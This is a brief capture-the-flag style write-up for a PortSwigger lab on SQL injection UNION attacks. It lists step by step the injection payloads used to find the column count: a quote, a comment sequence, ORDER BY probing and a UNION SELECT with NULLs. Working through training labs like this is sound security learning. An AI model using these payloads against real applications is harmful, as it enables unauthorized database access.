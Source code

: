 # [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 4--
```
Error because 3 Column

Step - 4
---
```
' UNION SELECT NULL,NULL,NULL--
```
